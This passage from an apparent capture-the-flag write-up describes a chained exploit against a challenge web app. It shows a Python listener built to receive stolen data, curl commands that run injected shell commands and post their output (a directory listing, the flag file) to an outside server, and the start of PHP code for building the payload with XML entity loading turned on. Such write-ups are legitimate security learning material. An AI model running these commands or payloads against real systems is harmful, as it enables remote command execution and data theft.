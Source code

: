 When memes.php is visited again, simply get the POST response with a simple tornado listener:

```
import tornado.ioloop
import tornado.web

class MainHandler(tornado.web.RequestHandler):
    def post(self):
        print self.request.body

def make_app():
    return tornado.web.Application([
        (r"/.*", MainHandler),
    ])

if __name__ == "__main__":
    app = make_app()
    app.listen(80)
    tornado.ioloop.IOLoop.current().start()
```

Using this method to look at the file system (“python pickle.py 'curl -X POST -d "|$(ls -lath)|" myserver.com”) yields:

```
total 36K
drwxr-xr-x 1 root        root        4.0K Sep 26 16:20 ..
drwxr-xr-x 1 maintenance maintenance 4.0K Sep 26 16:19 .
drwxr-xr-x 1 maintenance maintenance 4.0K Sep 26 16:19 static
-rw-r--r-- 1 maintenance maintenance 1.7K Sep 23 19:28 app.py
-rw-r--r-- 1 maintenance maintenance 3.4K Sep 23 19:11 app.pyc
-rw-r--r-- 1 maintenance maintenance  150 Sep 23 19:07 flag.txt
-rw-r--r-- 1 maintenance maintenance   14 Sep 18 17:50 requirements.txt
-rw-r--r-- 1 maintenance maintenance   89 Sep 18 17:50 status.pickle
drwxr-xr-x 1 maintenance maintenance 4.0K Sep 18 17:50 templates
```

Using this method to look at flag.txt (“python pickle.py 'curl -X POST -d "|$(cat flag.txt)|" myserver.com”) shows the flag:

```
Yay! Here is your flag:

flag{cha1n1ng_bugs_f0r_fun_4nd_pr0f1t?_or_rep0rt_an_LF1}


Go to https://hackerone.com/h1-5411-ctf and submit your writeup!
```

PHP code used to generate payload (this works on http://sandbox.onlinephpfunctions.com/):

```
<?php

$qqq= array("test", "abc");

class ConfigFile {
    function __construct($url) {
      $this->config_raw = $url;//file_get_contents($url);
    }
    function parse() {
        echo '<p>DEBUG: parse() hit (current config_raw = '.htmlspecialchars($this->config_raw).' )</p>';
      $dom = new DOMDocument();
      $dom->loadXML($this->config_raw, LIBXML_NOENT | LIBXML_DTDLOAD);
      $o = simplexml_import_dom($dom);

      $this->top_text = $o->toptext;
```
